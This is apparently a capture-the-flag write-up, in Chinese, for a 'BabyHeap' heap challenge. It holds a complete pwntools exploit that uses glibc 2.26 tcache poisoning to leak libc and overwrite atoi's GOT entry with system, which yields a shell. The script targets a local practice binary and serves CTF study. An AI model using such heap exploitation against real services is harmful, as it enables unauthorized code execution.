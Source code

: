 glibc2.26 的 tcache poison，leak libc 後改 `atoi_got` 成 `system`，執行 `system("/bin/sh")`，exploit 如下:

```python
#!/usr/bin/python3

from pwn import *

"""
------- BabyHeap -------
1 - Create
2 - Edit
3 - Show
4 - Delete
5 - Exit
"""
def create(): # 0x60
    r.sendlineafter('> ', '1')

def read_content(payload):
    r.sendlineafter('> ', '2')
    r.sendafter('Content? ', payload) # 0x40

def show():
    r.sendlineafter('> ', '3')

def delete():
    r.sendlineafter('> ', '4') # clear create

def magic(payload):
    r.sendlineafter('> ', '1337')
    r.sendafter('Fill ', payload)

global_var = 0x4040A0
atoi_got = 0x404060

r = process("./B", env={"LD_PRELOAD": "./libc-2.26.so"})

create()
delete()
read_content(p64(global_var))
create()
magic(p64(0)*5 + p64(atoi_got))
show()
r.recvuntil('t: ')
libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x38db0
info(f"libc: {hex(libc)}")
_system = libc + 0x47dc0

read_content(p64(_system))

r.interactive()
```
